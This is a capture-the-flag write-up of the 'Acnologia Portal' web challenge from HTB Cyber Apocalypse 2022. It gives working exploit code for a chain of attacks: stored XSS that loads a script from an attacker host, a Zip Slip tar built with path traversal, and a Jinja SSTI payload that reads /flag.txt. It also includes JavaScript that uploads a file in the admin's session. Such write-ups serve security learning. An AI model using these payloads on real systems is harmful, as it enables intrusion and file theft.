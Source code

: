 # Acnologia Portal
Acnologia Portal is another medium web challenge solved by our team during HTB Cyber Apocalypse 2022. It starts with the login page, where in addition we can create our own new account. 

![login.png](login.png)

After successful login, we are redirected to the `/dashboard` page, where is a list of firmwere. 

![list.png](list.png)

Main function of the application is to report a bug to the particular firmware, then the bug will be reviewed by the `administrator`. So our first thought was to try XSS.

## XSS

We checked for XSS by trying to send a request to the webhook and it worked!
```
<img src="http://c9zv8s32vtc0000byq1ggfbg1fwyyyyyn.interact.sh">
```

## Source Code

The flag is hidden in the file `flag.txt` so there is no way by using only XSS to end the challnege. Source code was given, so let's see what other functions we have.

The admin's behaviour is described in `bot.py` file, its purpose is only to review our bug report. More intrestnig part is in `routes.py`, there are 2 methods where admin's privileges are needed - `review_report()` and `firmware_update()`. The second one caught our attention, the functionality is described in detail in `util.py`.

```python
def extract_firmware(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        rand_dir = generate(15)
        extractdir = f"{current_app.config['UPLOAD_FOLDER']}/{rand_dir}"
        os.makedirs(extractdir, exist_ok=True)
        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                try:
                    filename = f'{extractdir}/{name}'
                    os.rename(os.path.join(tmp, name), filename)
                    continue
                except:
                    pass
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)
        tar.close()
        return True

    return False
```
It seems an administrator can upload a tar file to be unpacked to the server, which is an perfect scenario for the `Zip Slip` vulnerability.

## Zip Slip

So the idea is that XSS does the tar file upload and performs the [Zip Slip attack](https://snyk.io/research/zip-slip-vulnerability). I have checked after some code modifiaction if Zip Slip works locally (commented the `@is_admin()` lines) and I was able to replace original files.

Best files to replace in our opinion are the templates, because in case of templates, the application doesn't need to be restarted to load new files. So we have picked `register.html`, and after the tar file upload, `/register` page is going to read the flag using template engine.

```python
import tarfile    
import io            
import requests
import time
    
fname = "../../../../../../../../../app/application/templates/register.html"                    
data = b"""                                                                           
{{ get_flashed_messages.__globals__.__builtins__.open("/flag.txt").read() }}
"""                                       
source = io.BytesIO(initial_bytes=data)                                                  

fh = io.BytesIO()                           
with tarfile.open(fileobj=fh, mode='w:gz') as tar:
    info = tarfile.TarInfo(fname)   
    info.size = len(data)
    info.mtime = time.time()            
    tar.addfile(info, source)                                                                                   

with open('test.tar.gz', 'wb') as f:
    f.write(fh.getvalue())
    
f.close()
```

## XSS payload
After some time digging through google we stumble upon this [article](https://www.dubget.com/file-upload-via-xss.html). So we gracefully stole that code and move one to the exploitation
```javascript
//Source: https://stackoverflow.com/a/20151856
//Author: Bacher
function base64toBlob(base64Data, contentType) {
    contentType = contentType || '';
    var sliceSize = 1024;
    var byteCharacters = atob(base64Data);
    var bytesLength = byteCharacters.length;
    var slicesCount = Math.ceil(bytesLength / sliceSize);
    var byteArrays = new Array(slicesCount);

    for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
            bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
    }
    return new Blob(byteArrays, { type: contentType });
}

//File contents encoded to Base64
var b64file = "base64 encoded tar";

//Create a Blob object
var content_type = 'application/x-gtar-compressed';
var blob = base64toBlob(b64file, content_type);

//Append Blob to FormData
var formData = new FormData();
formData.append('Plugin', blob,'file.tar.gz');

//Send FormData to the server via XMLHttpRequest
var url = 'http://webapp/upload';
var request = new XMLHttpRequest();
request.open('POST', url);
request.send(formData);
```

## Exploit chain
So whole idea is login, then use XSS to deliver malicious `tar` file (in context of admin user). Crafted `tar` file overwrite one of the template with `SSTI` payload, navigate to that overwritten template and read the flag.

### First step 
Generating malicious `tar` file and encoding it with `base64`.
```bash
cat test.tar.gz | base64 -w0
H4sIAHkwjmIC/+3Vu2rDMBQGYM15CpEpWXSPnQ6Fjh37BkJpTh2BfMFSwBDy7rXp0CmQoenQ/h8SOhIcNP2SkEK+vIXplcKRRvYQ6sutVSlrv+vlXCujNeMT+wXnXMI4X8/+J1PztsSWnnW1s26/q/ZPwtRVVdcrBn+fEPLWCMOwzBTfQ4l9Jwu1QwqFshypibnQKE6lTfflv3LuZv6NdUw746yzSteaKaO0U4wr5P/h+I9aXS68oeI/UsgnOvqWcg4NZeF9k/pDSNn7uT6cYyqxWzb9QN1mLeeGRpSprLdinH+izZZfr3iAAAAAAAAAAAAAAAAAAAAAAO7wCXSfXWoAKAAA 
```
### Second step
Now we need to trigger the XSS vulnerability and to do that we used simple script
```python
import requests
#url = "http://178.62.119.24:32530"
url = "http://172.17.0.2:1337"
proxies = {"http" : "127.0.0.1:8080"}
header = {"Content-Type": "application/json"}
s = requests.Session()
register = s.post(url=url + "/api/register", data='{"username":"test", "password":"test"}', headers=header, proxies=proxies)
login = s.post(url=url + "/api/login", data='{"username":"test", "password":"test"}', headers=header)
payload = '<script src=\'http://172.17.0.1:8000/asdf.js\'></script>'
report = s.post(url=url + "/api/firmware/report", data='{"module_id":"1","issue":"' + payload + '"}', headers=header, proxies=proxies)
print(report.text)
```
The payload here is loading the `asdf.js` file and executing it. Content of this file is
```javascript
//Source: https://stackoverflow.com/a/20151856
//Author: Bacher
function base64toBlob(base64Data, contentType) {
    contentType = contentType || '';
    var sliceSize = 1024;
    var byteCharacters = atob(base64Data);
    var bytesLength = byteCharacters.length;
    var slicesCount = Math.ceil(bytesLength / sliceSize);
    var byteArrays = new Array(slicesCount);

    for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
            bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
    }
    return new Blob(byteArrays, { type: contentType });
}

//File contents encoded to Base64
var b64file = "H4sIAHkwjmIC/+3Vu2rDMBQGYM15CpEpWXSPnQ6Fjh37BkJpTh2BfMFSwBDy7rXp0CmQoenQ/h8SOhIcNP2SkEK+vIXplcKRRvYQ6sutVSlrv+vlXCujNeMT+wXnXMI4X8/+J1PztsSWnnW1s26/q/ZPwtRVVdcrBn+fEPLWCMOwzBTfQ4l9Jwu1QwqFshypibnQKE6lTfflv3LuZv6NdUw746yzSteaKaO0U4wr5P/h+I9aXS68oeI/UsgnOvqWcg4NZeF9k/pDSNn7uT6cYyqxWzb9QN1mLeeGRpSprLdinH+izZZfr3iAAAAAAAAAAAAAAAAAAAAAAO7wCXSfXWoAKAAA";

//Create a Blob object
var content_type = 'application/x-gtar-compressed';
var blob = base64toBlob(b64file, content_type);

//Append Blob to FormData
var formData = new FormData();
formData.append('file', blob,'file.tar.gz');

//Send FormData to the server via XMLHttpRequest
var url = '/api/firmware/upload';
var request = new XMLHttpRequest();
request.open('POST', url);
request.withCredentials = true;
request.send(formData);
```
After running python script that trigger XSS vulnerability, our local server got hit with request of `asdf.js`
![request.png](request.png)
After that if everything went smooth `register.html` should be replaced with content of `flag.txt` file.
![flag.png](flag.png)